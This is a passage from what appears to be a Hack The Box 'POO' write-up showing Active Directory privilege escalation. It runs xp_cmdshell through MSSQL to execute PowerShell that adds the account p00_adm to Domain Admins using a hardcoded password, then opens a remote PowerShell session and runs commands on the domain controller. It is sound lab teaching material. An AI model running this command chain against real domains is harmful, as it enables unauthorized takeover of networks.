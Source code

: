 Now, let's load all these files in Bloodhound...

![Bloodhound](/assets/images/htb-writeup-poo/Screenshot_17.png)

![Bloodhound](/assets/images/htb-writeup-poo/Screenshot_18.png)

Wow, p00_adm has GenericAll access to all lot of groups, including Domain Admins!

https://www.harmj0y.net/blog/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/

> TL;DR: if we control an object that has SeEnableDelegationPrivilege in the domain, AND said object has GenericAll/GenericWrite rights over any other user object in the domain, we can compromise the domain at will, indefinitely.

We'll try using MSSQL again and run commands p00_adm and see if we can escalate to Domain Admin.

`xp_cmdshell 'powershell -c "import-module c:\temp\p.ps1; $SecPassword = ConvertTo-SecureString \"ZQ!5t4r\" -AsPlainText -Force; $Cred = New-Object System.Management.Automation.PSCredential(\"intranet.poo\p00_adm\", $SecPassword); Add-DomainGroupMember -Identity \"Domain Admins\" -Members \"p00_adm\" -Credential $Cred "'`

Command has executed successfully, let's log in:

```
PS C:\Users\snowscan> $SecPassword = ConvertTo-SecureString 'ZQ!5t4r' -AsPlainText -Force
PS C:\Users\snowscan> $Credential = New-Object System.Management.Automation.PSCredential('intranet.poo\p00_adm', $SecPassword)
PS C:\Users\snowscan> enter-pssession -computername [dead:babe::1001] -credential $Credential
[[dead:babe::1001]]: PS C:\Users\p00_adm\Documents> whoami
poo\p00_adm
```

Ok, we are now logged in as `p00_adm`, we can run commands on the DC by using `invoke-command`:

```
[[dead:babe::1001]]: PS C:\Users\p00_adm\Documents> invoke-command -credential $credential -computername dc -scriptblock { dir c:\users}


    Directory: C:\users


Mode                LastWriteTime         Length Name                                PSComputerName
----                -------------         ------ ----                                --------------
d-----        3/15/2018   1:20 AM                Administrator                       dc
d-----        3/15/2018  12:38 AM                mr3ks                               dc
d-----        4/12/2018   4:37 AM                p00_adm                             dc
d-r---       11/21/2016   3:24 AM                Public                              dc

[[dead:babe::1001]]: PS C:\Users\p00_adm\Documents> invoke-command -credential $credential -computername dc -scriptblock { dir c:\users\mr3ks}


    Directory: C:\users\mr3ks


Mode                LastWriteTime         Length Name                                PSComputerName
----                -------------         ------ ----                                --------------
d-r---        3/22/2018  11:17 PM                Contacts                            dc
d-r---         4/7/2018   1:06 PM                Desktop                             dc
d-r---        3/22/2018  11:17 PM                Documents                           dc
d-r---         4/7/2018  12:51 PM                Downloads                           dc
d-r---        3/22/2018  11:17 PM                Favorites                           dc
d-r---        3/22/2018  11:17 PM                Links                               dc
d-r---        3/22/2018  11:17 PM                Music                               dc
d-r---        3/22/2018  11:17 PM                Pictures                            dc
d-r---        3/22/2018  11:17 PM                Saved Games                         dc
```
